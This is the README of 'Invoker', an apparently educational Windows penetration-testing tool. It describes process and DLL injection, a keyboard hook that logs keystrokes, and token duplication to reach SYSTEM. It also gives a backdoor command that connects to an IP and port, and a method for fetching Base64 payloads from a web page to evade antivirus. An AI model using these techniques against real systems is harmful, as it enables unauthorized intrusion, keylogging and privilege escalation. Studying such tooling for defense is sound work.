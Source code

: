 # Invoker

Penetration testing utility.

The goal is to use this tool when access to some Windows OS features through GUI is restricted.

Some features require administrative privileges.

Capabilities:

* invoke the Command Prompt and PowerShell,
* download a file,
* add a registry key,
* schedule a task,
* Windows Management Instrumentation (WMI),
* connect to a remote host,
* terminate a running process,
* run a new process,
* dump a process memory,
* inject a bytecode into a running process,
* inject a DLL into a running process,
* list DLLs of a running process,
* install a hook procedure,
* enable access token privileges,
* duplicate an access token of a running process,
* list unquoted service paths and restart a running service,
* replace Sticky Keys.

Built with Dev-C++ IDE v5.11 (64-bit), compiled with TDM-GCC v4.9.2 (32-bit and 64-bit) and tested on Windows 10 Enterprise OS (64-bit). Download Dev-C++ from [here](https://sourceforge.net/projects/orwelldevcpp/files/Portable%20Releases/).

**NEW: Visual Studio Community 2019 v16.7.6 projects included.**

Made for educational purposes. I hope it will help!

Future plans:

* Direct System Calls,
* DLL Proxying,
* COM Hijacking.

## Invoker Library

Check all the capabilities [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/Invoker/lib/invoker/invoker.cpp). Feel free to use the library.

## How to Run (!!)

Run [\\exec\\Invoker_x86.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (32-bit) or [\\exec\\Invoker_x64.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (64-bit).

To automate the backdoor while setting up a persistence, you can run the following command:

```fundamental
Invoker_x86.exe 192.168.8.5 9000

Invoker_x64.exe 192.168.8.5 9000
```

32-bit Invoker can only:

* dump the memory of a 32-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 32-bit DLL into a 32-bit process,
* list DLLs of a 32-bit process,
* install a hook procedure from a 32-bit DLL.

64-bit Invoker can only:

* dump the memory of a 32-bit process,
* dump the memory of a 64-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 64-bit bytecode into a 64-bit process,
* ~~inject a 32-bit DLL into a 32-bit process,~~
* inject a 64-bit DLL into a 64-bit process,
* ~~list DLLs of a 32-bit process,~~
* list DLLs of a 64-bit process.
* ~~install a hook procedure from a 32-bit DLL,~~
* install a hook procedure from a 64-bit DLL.

## Bytecode Injection

Elevate privileges by injecting bytecode into a higher-privileged process.

This tool can parse an HTTP response and extract the payload from a custom element, e.g. from `<invoker>payload</invoker>` where `payload` is a binary code/file encoded in Base64.

Check the example at [pastebin.com/raw/xf9Trt0d](https://pastebin.com/raw/xf9Trt0d).

This might be useful if antivirus is constantly deleting your local payloads.

Also, check an additional example at [pastebin.com/raw/iW17rCxH](https://pastebin.com/raw/iW17rCxH).

Bytecode provided will most certainly not work for you.

P.S. Pastebin no longer works because it now redirects HTTP to HTTPS.

Use [ngrok](https://ngrok.com) to give your local web server a public address.

Too see if a process is 32-bit or 64-bit open up Task Manager -> click on `More details` -> go to `Details` tab -> right click on any of the columns -> click on `Select columns` -> check the `Platform` checkbox.

Additionally, to see if a process is running with administrative privileges check the `Elevated` checkbox.

## Generate a Reverse Shell Payload

Find out how to generate a reverse shell payload from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#generate-a-reverse-shell-payload-for-windows-os).

## PowerShell Scripts

Check all the PowerShell scripts used in the main C++ program [here](https://github.com/ivan-sincek/invoker/tree/master/ps).

## Make a DLL With a Hook Procedure

Find out how to make a DLL with a hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/InvokerHook/dllmain.cpp).

Hook procedure will invoke a message box on each window close.

Also, check out a keyboard hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/KeyboardHook/dllmain.cpp).

P.S. Make sure to remove all the created artifacts after you are done testing, e.g. remove `keylogger.log`.

## Get the LocalSystem Account (NT AUTHORITY\SYSTEM)

Run the Invoker as administrator.

Enable all access token privileges.

Duplicate the access token from e.g. Windows Logon Application (winlogon.exe) and run a new instance of Invoker.

Within the new Invoker instance, open the Command Prompt and run `whoami`, you should now see `nt authority\system`.

Enable all access token privileges once again.

Close the old Invoker instance.

P.S. You get more access token privileges from Local Security Authority Subsystem Service (lsass.exe).

## Images

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/invoker.jpg" alt="Invoker"></p>

<p align="center">Figure 1 - Invoker</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/registry.jpg" alt="Add/Edit Registry Key"></p>

<p align="center">Figure 2 - Add/Edit Registry Key</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/bytecode_injection.jpg" alt="Bytecode Injection"></p>

<p align="center">Figure 3 - Bytecode Injection</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/elevated_privileges.jpg" alt="Elevated Privileges"></p>

<p align="center">Figure 4 - Elevated Privileges</p>
